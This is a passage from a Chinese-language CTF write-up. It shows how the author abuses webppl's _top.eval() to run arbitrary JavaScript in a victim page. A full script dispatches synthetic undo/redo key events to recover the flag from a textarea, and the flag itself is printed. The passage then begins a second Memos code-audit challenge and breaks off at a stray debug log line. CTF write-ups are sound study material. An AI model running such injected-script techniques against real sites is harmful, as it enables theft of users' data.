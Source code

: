 不过天无绝人之路，在 [https://github.com/probmods/webppl/issues/643](https://github.com/probmods/webppl/issues/643) 里看到，webppl 可以用 `_top.eval()` 实现最地表最自由的 Eval，这下啥都可以用了。

工具找到了接下来就是怎么拿到网页上次运行的代码或结果。玩玩网页发现代码框里可以按 `Ctrl+Z` 撤回，于是想到可以在 Eval 里发送事件，撤回到上次代码输入结束的状态，从 HTML 里拿到代码即可。于是使用如下代码
```javascript
_top.eval("document.getElementsByTagName('textarea')[1].focus();
var i;
for (i = 0; i < 10000; i++){
    var e = document.createEvent('HTMLEvents');
    e.keyCode = 90;
    e.ctrlKey = true;
    e.initEvent('keydown', true, true);
    document.getElementsByTagName('textarea')[1].dispatchEvent(e);
    var e = document.createEvent('HTMLEvents');
    e.keyCode = 90;
    e.ctrlKey = true;
    e.initEvent('keyup', true, true);
    document.getElementsByTagName('textarea')[1].dispatchEvent(e);
}
for (i = 0; i < 3; i++){
    var e = document.createEvent('HTMLEvents');
    e.keyCode = 90;
    e.ctrlKey = true;
    e.shiftKey = true;
    e.initEvent('keydown', true, true);
    document.getElementsByTagName('textarea')[1].dispatchEvent(e);
    var e = document.createEvent('HTMLEvents');
    e.keyCode = 90;
    e.ctrlKey = true;
    e.shiftKey = true;
    e.initEvent('keyup', true, true);
    document.getElementsByTagName('textarea')[1].dispatchEvent(e);
}
document.title = document.getElementsByTagName('textarea')[0].innerText;
")
```
解释一下这段代码。首先使用 `focus`，让代码框进入编辑状态，然后发送 `Ctrl+Z`。(1) 不需要真的按 `Ctrl` 键，它只看 `ctrlKey` 的值；(2) 因为受害者是 `sendkey` 来把代码输入进去的，所以只按一次 `Ctrl+Z` 是不行的，得先多按几次 `Ctrl+Z` 回到最开始啥都没有的状态，再按三次`Ctrl+Shift+Z` 还原回去，这时候代码框里就是我们想要的含有 Flag 的代码了。

去掉所有空白符，交给网页执行，即可拿到 Flag
```
flag{eVaL-Is-EVIL-But-never-miNd}
```

看提示预期解是要读什么在堆里的东西，所以我这算一个非预期解？


## 8. [Web] ICS笑传之查查表

直接到 [Memos的github库](https://github.com/usememos/memos) 审计代码。盯了许久终于在 [user_service.go](https://github.com/usememos/memos/blob/main/server/router/api/v1/user_service.go#L168) 盯出来一个洞：


[2024:09:30:17:14:32]: Debug: --begin keyboard packet--